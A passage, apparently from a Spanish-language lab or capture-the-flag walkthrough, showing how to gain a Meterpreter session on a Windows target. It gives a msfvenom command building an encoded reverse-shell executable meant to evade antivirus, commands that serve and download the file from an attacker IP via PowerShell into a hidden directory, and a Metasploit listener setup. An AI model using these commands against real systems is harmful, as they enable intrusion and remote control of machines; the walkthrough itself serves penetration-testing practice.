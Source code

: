 En nuestro Kali, vamos a crear con msfvenom, un payload para que nos de una sesión de tipo Meterpreter en este caso.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[IPAtacante] LPORT=443 -f exe -e x84/shikata_ga_nai -i 127 > executeme.exe
```

En esta ocasión, hemos metido una serie de parámetros nuevos que vamos a pasar a explicar. Con el parámetro -e le estamos indicando que vamos a utilizar un codificador para ofuscar el payload. x84/shikata_ga_nai es un codificador que cifra el payload varias veces con un algoritmo polimórfico. Esto hace que el archivo malicioso sea más difícil de detectar. Por último con -i 127, le indicamos el número de veces que el payload será codificado. Esto incrementará la complejidad del archivo y reducirá aún más la probabilidad de detección. El nombre de este ejecutable malicioso será executeme.exe


![Imagen035](35.jpeg)


Ahora con python, creamos un servidor web para transferir este archivo al equipo objetivo.

```bash
python3 -m http.server 8080
```

Ahora en el equipo objetivo, ejecutamos el siguiente comando para descargar el ejecutable executeme.exe. Recordar, hacerlo bajo el directorio al que nos cambiamos antes para pasar más desapercibidos.

```
cd C:\Users\bitbucket\Appdata\Local\VirtualStore
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://[IPAtacante]:8080/executeme.exe', 'C:\Users\bitbucket\AppData\Local\VirtualStore\executeme.exe')"
```

```
También podemos utilizar el siguiente comando. Sea como sea que lo hagamos, tendremos el archivo executeme.exe en el equipo objetivo listo para ser ejecutado.

```
Invoke-WebRequest -Uri "http://[IPAtacante]:8080/executeme.exe" -OutFile "C:\Users\bitbucket\AppData\Local\VirtualStore\executeme.exe"
```

![Imagen036](36.jpeg)


Para ponernos en escucha, utilizaremos Metasploit (al hacerlo con un payload tipo Shell y netcat no se por qué daba fallo) 

```bash
msfconsole -q 
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST [IPAtacante]
set LPORT 443
run
```
